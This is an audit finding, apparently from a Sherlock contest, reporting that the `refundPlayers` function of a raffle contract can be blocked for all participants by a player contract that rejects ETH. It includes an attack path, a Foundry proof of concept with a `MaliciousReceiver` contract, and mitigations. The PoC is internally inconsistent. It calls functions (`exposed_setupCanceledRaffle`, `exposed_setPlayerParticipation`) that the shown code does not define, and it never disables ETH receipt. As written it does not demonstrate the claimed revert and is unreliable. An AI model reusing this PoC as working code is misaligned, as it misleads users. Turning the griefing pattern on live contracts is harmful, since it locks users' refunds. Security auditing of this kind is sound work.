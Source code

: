 Zesty Peanut Pony

Medium

# `refundPlayers` can be DoS'd if a contract player can't receive ETH

### Summary
https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/81b28633d0f450e33a8b32976e17122418f5d47e/public-contracts/contracts/WinnablesTicketManager.sol#L215

If a player in the `refundPlayers` function is a contract that cannot receive ETH (for example, due to a missing receive() or fallback() function), any attempt to refund that player will cause the entire transaction to revert. This means that if even one player among the participants cannot receive ETH for example if the API tries to refund All Players, the refund process for all players will fail. This effectively creates a Denial of Service (DoS) scenario, preventing all participants from being refunded simultaneously.

This issue directly contradicts one of the core principles outlined in the project's documentation: "Participants in a raffle that got cancelled can always get refunded."

### Root Cause

The root cause of this issue lies in the assumption that all players can receive ETH, without considering the scenario where a player is a contract that lacks the `receive` or `fallback` functions. the function `_doSafeTransferAcceptanceCheck` contract  `WinnablesTicket` checks if the contract is able to receive `ERC1155` tokens but this doesn't mean that it's able to accept ETH. If one of the players is a contract unable to accept ETH, the `refundPlayers` function will fail, potentially preventing all other players from being refunded.

### Internal pre-conditions

1. The `refundPlayers` function is invoked to return ETH to players who have participated in a game or raffle.
2. The list of players includes a contract address that does not have a `receive` or `fallback` function to accept ETH.

### External pre-conditions

1. An external user or contract initiates a refund process, calling `refundPlayers`.
2. One of the player addresses is a contract that cannot accept ETH transfers.

### Attack Path

Step 1: The `refundPlayers` function is called to distribute ETH to all participants.
Step 2: The function iterates through the list of players, attempting to send ETH to each address.
Step 3: When it reaches the contract address that cannot accept ETH, the transfer fails.
Step 4: Basedon how the refund logic is structured, the failure might cause the entire transaction to revert, preventing all subsequent refunds from occurring.
Step 5: As a result, none of the players receive their refunds, effectively causing a Denial of Service (DoS) for the refund process.

### Impact

The impact of this issue is a complete blockage of the refund process. If a single player in the list is a contract unable to receive ETH, no player can be refunded. This not only prevents the return of funds but can also erode trust in the contract or platform, especially in scenarios where refunds are expected to be quick and reliable.

### PoC

for simplicity I added a function in the `WinnablesTicketManager.sol`
```javascript
function setupCanceledRaffle(uint256 raffleId, uint256 refundAmount) external {
        Raffle storage raffle = _raffles[raffleId];
        raffle.status = RaffleStatus.CANCELED;
        raffle.totalRaised = refundAmount;
        _lockedETH = refundAmount;
    }
```
```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.24;

import "forge-std/Test.sol";
import "../src/WinnablesTicketManager.sol";
import "@openzeppelin/contracts/token/ERC1155/IERC1155Receiver.sol";

contract MockLinkToken {
    mapping(address => uint256) public balances;
    mapping(address => mapping(address => uint256)) public allowances;

    function approve(address spender, uint256 amount) public returns (bool) {
        allowances[msg.sender][spender] = amount;
        return true;
    }
}

contract MockVRFCoordinator {
    function requestRandomWords(
        bytes32,
        uint64,
        uint16,
        uint32,
        uint32
    ) external pure returns (uint256) {
        return 1;
    }
}
contract MaliciousReceiver is IERC1155Receiver {
    bool public canReceiveETH = true;
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function onERC1155Received(
        address,
        address,
        uint256,
        uint256,
        bytes memory
    ) public virtual override returns (bytes4) {
        return this.onERC1155Received.selector;
    }

    function onERC1155BatchReceived(
        address,
        address,
        uint256[] memory,
        uint256[] memory,
        bytes memory
    ) public virtual override returns (bytes4) {
        return this.onERC1155BatchReceived.selector;
    }

    function toggleETHReceive() external {
        require(msg.sender == owner, "Only owner");
        canReceiveETH = !canReceiveETH;
    }

    receive() external payable {
        require(canReceiveETH, "ETH receive disabled");
    }

    function supportsInterface(bytes4 interfaceId) public view virtual override returns (bool) {
        return interfaceId == type(IERC1155Receiver).interfaceId;
    }
}
contract WinnablesTicketManagerTest is Test {
    WinnablesTicketManager public ticketManager;
    MaliciousReceiver public attacker;
    
    MockLinkToken public linkToken;
    MockVRFCoordinator public vrfCoordinator;
    uint256 public constant RAFFLE_ID = 1;
    uint256 public constant REFUND_AMOUNT = 1 ether;
    function setUp() public {
        linkToken = new MockLinkToken();
        vrfCoordinator = new MockVRFCoordinator();

        ticketManager = new WinnablesTicketManager(
            address(linkToken),
            address(vrfCoordinator),
            1, // subscriptionId
            bytes32(0), // keyHash
            address(0), // tickets contract
            address(0) // CCIP router
        );

        // Set up a canceled raffle with refund amount
        vm.deal(address(ticketManager), REFUND_AMOUNT * 10);
        vm.prank(address(ticketManager));
        ticketManager.exposed_setupCanceledRaffle(RAFFLE_ID, REFUND_AMOUNT);

        attacker = new MaliciousReceiver();
    }

    function testFailedRefundPlayers() public {
        // Set the attacker contract as an eligible player for refund
        vm.prank(address(ticketManager));
        ticketManager.exposed_setPlayerParticipation(RAFFLE_ID, address(attacker), REFUND_AMOUNT);
        address[] memory players = new address[](1);
        players[0] = address(attacker);
        // Record initial balances
        uint256 initialAttackerBalance = address(attacker).balance;
        uint256 initialContractBalance = address(ticketManager).balance;

        // Perform the attack
        ticketManager.refundPlayers(RAFFLE_ID, players);
    }
}
```

### Mitigation

1. Skipping addresses that fail the ETH transfer and continuing the refund process for other players.
2. Storing the refund information for failed transfers and allowing affected players to manually claim their refunds through a separate function.